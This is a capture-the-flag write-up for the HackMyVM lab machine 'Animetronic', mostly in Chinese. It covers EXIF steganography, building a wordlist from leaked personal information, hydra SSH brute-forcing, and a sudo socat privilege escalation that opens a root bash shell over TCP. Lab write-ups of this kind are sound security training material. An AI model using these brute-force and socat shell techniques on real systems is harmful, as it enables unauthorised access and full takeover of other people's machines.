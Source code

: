 # Animetronic

2025.03.18 https://hackmyvm.eu/machines/machine.php?vm=Animetronic

[video](https://www.bilibili.com/video/BV1vtXjYVEuF/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描发现 http://192.168.5.40/staffpages/new_employees 是一张 jpeg 图片，exiftool 查看隐写 Comment 中显示 page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=

进行 base64 解码，并将内容反转得到: `message_for_michael` 提示访问这个页面 http://192.168.5.40/staffpages/message_for_michael :

```
Hi Michael

Sorry for this complicated way of sending messages between us.
This is because I assigned a powerful hacker to try to hack
our server.

By the way, try changing your password because it is easy
to discover, as it is a mixture of your personal information
contained in this file

personal_info.txt
```

访问这个文件 http://192.168.5.40/staffpages/personal_info.txt :

```
name: Michael

age: 27

birth date: 19/10/1996

number of children: 3 " Ahmed - Yasser - Adam "

Hobbies: swimming
```

说是 Michael 的密码是包含个人信息的混合，需要根据上面的信息组合生成密码。这里使用 cupp 根据上述个人信息生成字典，最后使用 hydra 爆破 michael 用户的密码：

```
[22][ssh] host: 192.168.5.40   login: michael   password: leahcim1996
```

在另外一个用户下，先拿到了 user flag:

```
michael@animetronic:/home/henry$ cat user.txt
0833990328464efff1de6cd93067cfb7
```

同时发现提示:

```
michael@animetronic:/home/henry$ cat Note.txt
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
```

进行 base64 解码得到文件名 henrypassword.txt 进行查找：

```
michael@animetronic:/home/henry$ find / -type f -name 'henrypassword.txt' 2>/dev/null
/home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt

IHateWilliam
```

切换到 henry 用户, sudo -l 显示 (root) NOPASSWD: /usr/bin/socat ，登陆 2 个 ssh 窗口，直接反弹 shell 到目标机器上:

```
socat file:`tty`,raw,echo=0 tcp-listen:8888

sudo socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:8888
```

拿到最终 root flag:

```
root@animetronic:/home/henry# id
uid=0(root) gid=0(root) groups=0(root)
root@animetronic:/home/henry# cd /root
root@animetronic:~# cat root.txt
153a1b940365f46ebed28d74f142530f280a2c0a
```

